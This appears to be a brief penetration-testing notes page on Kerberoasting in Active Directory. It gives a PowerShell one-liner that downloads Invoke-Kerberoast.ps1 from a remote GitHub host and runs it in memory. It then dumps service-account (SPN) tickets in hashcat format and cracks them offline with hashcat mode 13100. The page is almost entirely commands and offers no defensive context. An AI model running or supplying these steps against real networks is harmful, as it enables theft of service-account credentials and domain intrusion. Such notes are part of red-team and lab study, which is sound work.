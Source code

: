 # Get SPN Account Ticket with Invoke-Kerberoast

### Installing Invoke-Kerberoast script

Lets first get the Powershell Invoke-Kerberoast script.

```powershell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1')
```

***

### Loading into Memory

Now lets load this into memory:

```powershell
Invoke-Kerberoast -OutputFormat hashcat |fl
```

You should get a SPN ticket.&#x20;

<figure><img src="../../../../../../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

***

### Cracking Hash using Hashcat

The type of hash we're cracking is **Kerberos 5 TGS-REP etype 23** and the hashcat code for this is **13100**

```bash
hashcat -m 13100 -​a 0 hash.txt wordlist --force
```

***
